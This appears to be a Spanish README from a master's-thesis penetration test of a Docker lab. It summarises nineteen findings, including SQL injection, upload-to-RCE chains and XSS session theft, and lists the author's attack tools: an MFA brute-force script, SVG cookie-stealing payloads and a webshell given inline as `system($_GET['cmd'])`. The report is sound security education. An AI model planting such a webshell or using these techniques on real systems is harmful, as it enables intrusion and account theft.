

No se confirmó caída total en las pruebas realizadas (nota de alcance: al interrumpirse con `Ctrl+C`, `ab` no imprimió estadísticas finales — la evidencia de impacto es cualitativa, no una cifra exacta), pero el patrón de ralentización progresiva (50→300 de concurrencia) indica un servicio expuesto a un ataque de disponibilidad escalable. No se escaló más allá de esta prueba: el mismo host aloja las otras 3 apps del laboratorio, incluida StreamWave, aún pendiente de auditar. Lab reiniciado tras la prueba.

</details>

*(pendiente: explotación del XSS reflejado en `booking-calendar-pro`, y revisión del registro de usuarios abierto)*

---

## 🏆 Hallazgos confirmados

| # | Hallazgo | Severidad | CVSS |
|---|---|:---:|:---:|
| 1 | Cookie de sesión sin atributos de seguridad | 🟠 Alto | 6.5 |
| 2 | Credenciales por defecto (`admin`/`admin`) | 🔴 Crítico | 9.1 |
| 3 | **Cadena completa de compromiso administrador** | 🔴 Crítico | 9.1 |
| 4 | XSS reflejado en buscador + robo de sesión | 🟠 Alto | 8.1 |
| 5 | XSS almacenado en reviews + robo de sesión | 🟠 Alto | 7.3 |
| 6 | Manipulación de precio (descuento al 100% del carrito) | 🟡 Medio | 6.5 |
| 7 | IDOR en facturas (`invoice.php`) | 🟡 Medio | 6.5 |
| 8 | Reviews ilimitadas / rating bombing | 🟡 Medio | 4.3 |
| 9 | CSRF en envío de reviews (`add_review.php`) | 🟡 Medio | 4.3 |
| 10 | **IDOR masivo en Developer API** (perfiles, direcciones, pedidos) | 🔴 Crítico | 6.5 |
| 11 | **[PixelForge]** Inyección SQL en login.php — toma de cuenta admin | 🔴 Crítico | 9.8 |
| 12 | **[PixelForge]** Subida de fichero sin restricciones → RCE | 🔴 Crítico | 9.8 |
| 13 | **[PixelForge]** Política de registro débil (sin verificación de email) | 🟡 Medio | 5.3 |
| 14 | **[PixelForge]** 🏆 Cadena completa: invitado anónimo → RCE (2 rutas) | 🔴 Crítico | 9.8 |
| 15 | **[PixelForge]** Escalada de privilegios local (www-data → pepe) | 🟠 Alto | 7.8 |
| 16 | **[PixelForge]** Secretos y credenciales en texto plano en config.php | 🔴 Crítico | 8.6 |
| 17 | **[PixelForge]** 🏆 Toma de cuenta admin vía tokens filtrados en mail.log | 🔴 Crítico | 8.6 |
| 18 | **[WordPress]** Enumeración masiva de usuarios sin autenticación (29 cuentas) | 🟡 Medio | 5.3 |
| 19 | **[WordPress]** Denegación de servicio parcial vía wp-cron.php | 🟡 Medio | 5.3 |

Detalle completo de cada hallazgo (descripción, PoC, impacto, remediación) en el [informe técnico](docs/informe-BigShop.pdf) o en su [writeup individual](writeups/).

---

## 📝 Writeups individuales por hallazgo

Cada uno de los 19 hallazgos tiene además su propio writeup visual independiente (contexto, PoC paso a paso, impacto y remediación) en [`writeups/`](writeups/) — pensados para leerse sueltos, sin necesidad del contexto completo de este README ni del PDF.

➡️ **[Ver índice completo de writeups](writeups/README.md)**

---

## 🧰 Herramientas y scripts propios

- [`scripts/mfa_bruteforce.py`](scripts/mfa_bruteforce.py) — fuerza bruta concurrente del OTP del MFA, explotando el bypass de rate-limit por `X-Forwarded-For`.
- [`scripts/pixelforge_avatar_rce_shell.php`](scripts/pixelforge_avatar_rce_shell.php) — webshell mínimo (`system($_GET['cmd'])`) usado como avatar para confirmar la RCE de PixelForge.
- [`scripts/pixelforge_avatar_xss_poc.svg`](scripts/pixelforge_avatar_xss_poc.svg) / [`pixelforge_avatar_xss_cookie_steal.svg`](scripts/pixelforge_avatar_xss_cookie_steal.svg) — SVG con `onload` para confirmar que el mismo formulario de avatar tampoco filtra SVGs con JS embebido.
- [`scans/wpscan-bigshop-puerto80.txt`](scans/wpscan-bigshop-puerto80.txt) — output completo de WPScan contra WordPress (puerto 80).

---

## 📄 Informe completo

El informe técnico formal (CVSS, CWE, referencias OWASP, PoC y remediación por hallazgo) está en:

➡️ **[`docs/informe-BigShop.pdf`](docs/informe-BigShop.pdf)**

---

<div align="center">

**Jose Gomez Garcia** · TFM — Máster en Ciberseguridad y Hacking Ético

*Laboratorio con fines educativos. Todas las vulnerabilidades se explotaron exclusivamente en el entorno de laboratorio Docker, sin alcance a sistemas de producción.*

</div>
